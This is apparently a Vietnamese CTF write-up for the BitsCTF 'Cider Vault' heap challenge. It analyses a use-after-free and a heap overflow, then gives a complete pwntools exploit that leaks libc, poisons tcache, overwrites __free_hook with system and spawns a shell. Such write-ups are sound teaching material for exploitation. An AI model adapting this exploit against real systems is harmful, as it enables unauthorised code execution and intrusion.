

+++
title = 'BitsCTF'
date = 2026-02-22T16:17:37+07:00
draft = false
categories = ["ctf"]
+++

## Cider Vault



### 1. Phân tích Binary

```js
pwndbg> checksec
File:     /home/lwd3c/Desktop/CTF/2026/BitsCTF/cider_vault/cider_vault_patched
Arch:     amd64
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
RUNPATH:    b'.'
FORTIFY:    Enabled
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

Binary dùng mảng:

```c
vats[2*i]     = pointer
vats[2*i + 1] = size
```

Có tối đa `12` page (id 0-11)

#### Use-After-Free (case 4 – tear page)

```c
free(v26);
puts("ok");
```

Không set pointer về NULL, sau khi `free` vẫn có thể đọc và ghi dữ liệu vào được.

#### Heap overflow (case 2 – paint page)

```c
if ( v11 > size + 128 )
    no;
```

Cho phép ghi tối đa `size + 128` (ghi tràn 128 byte sau chunk).


### 2. Khai thác

#### Leak libc, heap bằng Unsorted Bin

Đầu tiên fill `tcache bin` sau đó `free` thêm 1 chunk cùng size để chunk đó vào `Unsorted Bin`. Trong `Unsorted Bin` chứa:
```py
fd = main_arena + 96
bk = main_arena + 96
```

Sau đó dùng chức năng `read` để leak và tính được `libc base`. Vì `read` cho phép đọc tối da `size + 128` bytes nên ta có thể leak tiếp được `heap base` từ chunk kế tiếp.

```py
create(1, 200)

for i in range(3, 10):
    create(i, 200)

for i in range(3, 10):
    delete(i)

delete(1)
read(1, 250)
libc.address = u64(r(6).ljust(8, b'\x00')) - 0x1ecbe0
r(210)
heap_base = u64(r(6).ljust(8, b'\x00')) - 0x10
info(f'Libc base: {hex(libc.address)}')
info(f'Heap base: {hex(heap_base)}')
```

Sau đó dễ dàng tính được địa chỉ `__free_hook` và `system`.

#### Tcache Poisoning

Vì là `Libc 2.31` nên `fd pointer` không bị encode nên có thể dễ dàng overwrite `fd pointer` bằng `edit`.

Sau đó chỉ cần `malloc` lại chunk tại `__free_hook` và overwrite `__free_hook` thành `system` bằng `edit`.

#### Trigger shell

Sau khi overwrite `__free_hook` thành `system`, ta chỉ cần `free` chunk có `'/bin/sh'`, khi đó chương trình sẽ thực thi `system('/bin/sh')`.

```py
#!/usr/bin/env python3
from pwn import *

exe = ELF('cider_vault_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)

context.binary = exe
context.os = 'linux'
context.arch = 'amd64'
context.endian = 'little'

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
r      = lambda n=4096, proc=None: proc.recv(n) if proc else p.recv(n)
rl     = lambda proc=None: proc.recvline() if proc else p.recvline()
ru     = lambda delim=b'\n', proc=None: proc.recvuntil(delim) if proc else p.recvuntil(delim)
ra     = lambda proc=None: proc.recvall() if proc else p.recvall()

def GDB():
    gdb.attach(p, gdbscript="""
        b*main+367
        
    """)

if args.REMOTE:
    p = remote("chals.bitskrieg.in", int("30855"))
else:
    qemu_bin = None
    if qemu_bin:
        p = process([qemu_bin] + qemu_args + [exe.path]) # type: ignore
    else:
        p = process([exe.path])
    if args.GDB:
        GDB()

# Gud luk pwner !
def create(id, size):
    sla(b'> ', b'1')
    sla(b'id:\n', str(id).encode())
    sla(b'size:\n', str(size).encode())

def edit(id, size, content):
    sla(b'> ', b'2')
    sla(b'id:\n', str(id).encode())
    sla(b'bytes:\n', str(size).encode())
    sla(b'ink:\n', content)

def read(id, size):
    sla(b'> ', b'3')
    sla(b'id:\n', str(id).encode())
    sla(b'bytes:\n', str(size).encode())

def delete(id):
    sla(b'> ', b'4')
    sla(b'id:\n', str(id).encode())

### EXPLOIT GOES HERE
create(1, 200)

for i in range(3, 10):
    create(i, 200)

for i in range(3, 10):
    delete(i)

delete(1)
read(1, 250)
libc.address = u64(r(6).ljust(8, b'\x00')) - 0x1ecbe0
r(210)
heap_base = u64(r(6).ljust(8, b'\x00')) - 0x10
info(f'Libc base: {hex(libc.address)}')
info(f'Heap base: {hex(heap_base)}')
__free_hook = libc.symbols['__free_hook']
system = libc.symbols['system']
info(f'__free_hook: {hex(__free_hook)}')
info(f'system: {hex(system)}')

# Overwrite __free_hook with system
create(2, 300)
create(10, 300)
delete(2)
delete(10)
edit(10, 8, p64(__free_hook))    
create(11, 300)
create(0, 300)
edit(0, 8, p64(system))
edit(11, 8, b'/bin/sh\x00')
delete(11)

sl('cat flag.txt')

p.interactive()
```

`FLAG: BITSCTF{dd05ede6c23d7d7c487387456359ffb9}` 

 
